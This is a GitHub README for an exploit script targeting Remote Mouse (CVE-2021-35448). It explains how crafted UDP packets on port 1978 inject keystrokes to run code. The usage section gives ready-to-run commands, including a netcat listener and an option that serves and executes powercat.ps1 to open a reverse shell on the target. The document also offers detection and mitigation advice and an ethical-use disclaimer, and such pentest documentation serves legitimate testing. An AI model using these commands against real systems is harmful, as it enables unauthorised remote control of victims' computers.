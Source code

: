 # CVE-2021-35448 - Remote Mouse Exploit

## Description

This exploit targets the **CVE-2021-35448** vulnerability in the Remote Mouse application (formerly WiFi Mouse). This vulnerability allows a remote unauthenticated attacker to execute arbitrary code on the target system via malicious UDP packets.

## Vulnerability

**CVE-2021-35448** is part of a series of vulnerabilities discovered in Remote Mouse by Axel Persinger (MouseTrap), including:

- **CVE-2021-27569**: Process window manipulation
- **CVE-2021-27570**: Forced process termination
- **CVE-2021-27571**: Application information retrieval
- **CVE-2021-27572**: Authentication bypass via packet replay
- **CVE-2021-27573**: Remote code execution without authentication
- **CVE-2021-27574**: Insecure update mechanism via HTTP

### Technical Details

- **Target Port**: 1978/UDP
- **Protocol**: Unencrypted UDP
- **Authentication**: None or easily bypassed
- **Impact**: Remote Code Execution (RCE)

## How the Exploit Works

The exploit works by sending specially crafted UDP packets to the Remote Mouse service listening on port 1978. The protocol uses plaintext commands with the format:

```
key <length><format><data>
```

### Supported Formats:

- `[ras]`: Single character injection (with XOR 53)
- `[noe]`: UTF-8 text injection
- `[kld]`: Special key combinations
- `[+]`: Keyboard shortcuts

## Usage

### Basic Syntax

```bash
python3 CVE-2021-35448.py -t <TARGET_IP> [OPTIONS]
```

### Options

- `-t, --target`: Target IP address (required)
- `-p, --payload`: Custom command to execute
- `-r, --reverse`: Reverse shell in IP:PORT format
- `-l, --http`: Local HTTP server in IP:PORT format (required with -r)

### Usage Examples

#### 1. Custom Command

```bash
python3 CVE-2021-35448.py -t 192.168.1.100 -p "calc.exe"
```

#### 2. Reverse Shell (Recommended)

```bash
# Terminal 1 - Listener
nc -nlvp 4444

# Terminal 2 - Exploit
python3 CVE-2021-35448.py -t 192.168.1.100 -r 192.168.1.50:4444 -l 192.168.1.50:8080
```

## Prerequisites

### Required Files

- `CVE-2021-35448.py`: Main exploitation script
- `powercat.ps1`: PowerShell script for reverse shells

### Python Dependencies

```bash
pip3 install argparse
```

### Target System

- Remote Mouse installed and running
- Port 1978/UDP accessible
- Windows system (tested on Windows 10/11)

## Features

### 1. Keystroke Injection

The exploit can simulate keystrokes to:
- Open applications (Win+R)
- Type commands
- Execute scripts

### 2. Automatic Reverse Shell

- Automatically starts a local HTTP server
- Downloads and executes powercat.ps1
- Establishes a reverse shell connection

### 3. Special Character Handling

- Automatic character encoding
- Support for key combinations
- Delay between keystrokes to avoid errors

## Detection and Mitigation

### Detection

- Monitor UDP traffic on port 1978
- Detect suspicious PowerShell commands
- Monitor unusual outbound connections

### Mitigation

1. **Uninstall Remote Mouse** if not necessary
2. **Configure firewall** to block port 1978
3. **Use a password** (bypassable but adds a layer)
4. **Network segmentation** to isolate workstations

## Warning

⚠️ **ETHICAL USE ONLY** ⚠️

This tool is intended for educational purposes and authorized penetration testing only. Unauthorized use of this exploit is illegal and may result in legal prosecution.

## References

- [MouseTrap Research by Axel Persinger](https://axelp.io/MouseTrap)
- [CVE-2021-27572](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27572)
- [CVE-2021-27573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27573)
- [Remote Mouse Official Website](https://remotemouse.net/)

## Author

Developed for educational and ethical penetration testing purposes.

---

*Last updated: 2025*
